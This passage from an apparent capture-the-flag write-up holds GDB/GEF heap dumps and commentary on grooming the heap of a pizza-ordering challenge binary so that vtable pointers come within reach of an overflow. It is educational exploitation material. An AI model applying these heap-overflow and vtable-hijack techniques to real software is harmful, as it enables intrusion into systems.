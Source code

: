 ```
0x000055b7b8a91218│+0x00e8: 0x000055b7b8a91250  →  0x0030308d8d9ff0e0
0x000055b7b8a91220│+0x00f0: 0x000055b7b8a90e80  →  0x000055b7b8a90ec0  →  0x0000000000000000
0x000055b7b8a91228│+0x00f8: 0x000055b7b8a90ec0  →  0x0000000000000000
0x000055b7b8a91230│+0x0100: 0x000055b7b8a90ec0  →  0x0000000000000000
0x000055b7b8a91238│+0x0108: 0x000055b7b8a90dc0  →  0x000055b7b8a90e70  →  0x0000000000000000
0x000055b7b8a91240│+0x0110: 0x000055b7b8a90e00  →  0x0000000000000000
0x000055b7b8a91248│+0x0118: 0x0000000000000021 ("!"?)
0x000055b7b8a91250│+0x0120: 0x0030308d8d9ff0e0
0x000055b7b8a91258│+0x0128: 0x00007fa157743b78  →  0x000055b7b8a92720  →  0x0000000000000000
0x000055b7b8a91260│+0x0130: 0x000055b7b8a91030  →  0x0000000000000000
0x000055b7b8a91268│+0x0138: 0x0000000000000021 ("!"?)
gef➤  x/g 0x000055b7b8a92710
0x55b7b8a92710: 0x000055b7b8a920f0
gef➤  x/g 0x000055b7b8a920f0
0x55b7b8a920f0: 0x000055b7b897cc00
gef➤  x/g 0x000055b7b897cc00
0x55b7b897cc00: 0x000055b7b8772cac
gef➤  x/3i 0x000055b7b8772cac
   0x55b7b8772cac:  push   rbp
   0x55b7b8772cad:  mov    rbp,rsp
   0x55b7b8772cb0:  sub    rsp,0x10
```

We can see here, that the vtable pointers are way away from the range that we can overflow (up to the offset `+0x12c`). Part of the issue might be that the explanation that we gave (all of the `1`s) is massive, and pushing it further down the heap. When we try to recook the pizzas of the second customer with a smaller explanation (explanation is `1111`) we see that the heap contents favors us:

```
gef➤  telescope 0x56377948c130 40
0x000056377948c130│+0x0000: 0x000056377948c1a0  →  0x000056377948c1b0  →  0x31313100858d9ff0
0x000056377948c138│+0x0008: 0x000056377948c1c0  →  "11111111A"
0x000056377948c140│+0x0010: 0x000056377948c1c0  →  "11111111A"
0x000056377948c148│+0x0018: 0x000056377948c170  →  0x000056377948c180  →  0x31313100858d9ff0
0x000056377948c150│+0x0020: 0x000056377948c190  →  "111111111"
0x000056377948c158│+0x0028: 0x000056377948c190  →  "111111111"
0x000056377948c160│+0x0030: "111111111"
0x000056377948c168│+0x0038: 0x0000000000000031 ("1"?)
0x000056377948c170│+0x0040: 0x000056377948c180  →  0x31313100858d9ff0
0x000056377948c178│+0x0048: 0x0000000000000004
0x000056377948c180│+0x0050: 0x31313100858d9ff0
0x000056377948c188│+0x0058: "11111111111111111"
0x000056377948c190│+0x0060: "111111111"
0x000056377948c198│+0x0068: 0x0000000000000031 ("1"?)
0x000056377948c1a0│+0x0070: 0x000056377948c1b0  →  0x31313100858d9ff0
0x000056377948c1a8│+0x0078: 0x0000000000000004
0x000056377948c1b0│+0x0080: 0x31313100858d9ff0
0x000056377948c1b8│+0x0088: "1111111111111111A"
0x000056377948c1c0│+0x0090: "11111111A"
0x000056377948c1c8│+0x0098: 0x0000000000000041 ("A"?)
0x000056377948c1d0│+0x00a0: 0x00005637785dfc00  →  0x00005637783d5cac  →   push rbp
0x000056377948c1d8│+0x00a8: 0x000056377948d8d0  →  0x00000000858d9ff0
0x000056377948c1e0│+0x00b0: "111111111111111111111111"
0x000056377948c1e8│+0x00b8: "1111111111111111"
0x000056377948c1f0│+0x00c0: "11111111"
0x000056377948c1f8│+0x00c8: 0x000056377948c300  →  0x0000000000000000
0x000056377948c200│+0x00d0: 0x0000000000000040 ("@"?)
0x000056377948c208│+0x00d8: 0x0000000000000041 ("A"?)
0x000056377948c210│+0x00e0: 0x00005637785dfbe0  →  0x00005637783d5ce2  →   push rbp
0x000056377948c218│+0x00e8: 0x000056377948c250  →  0x0030308d8d9ff0e0
0x000056377948c220│+0x00f0: 0x000056377948be80  →  0x000056377948bec0  →  0x0000000000000000
0x000056377948c228│+0x00f8: 0x000056377948bec0  →  0x0000000000000000
0x000056377948c230│+0x0100: 0x000056377948bec0  →  0x0000000000000000
0x000056377948c238│+0x0108: 0x000056377948bdc0  →  0x000056377948be70  →  0x0000000000000000
```
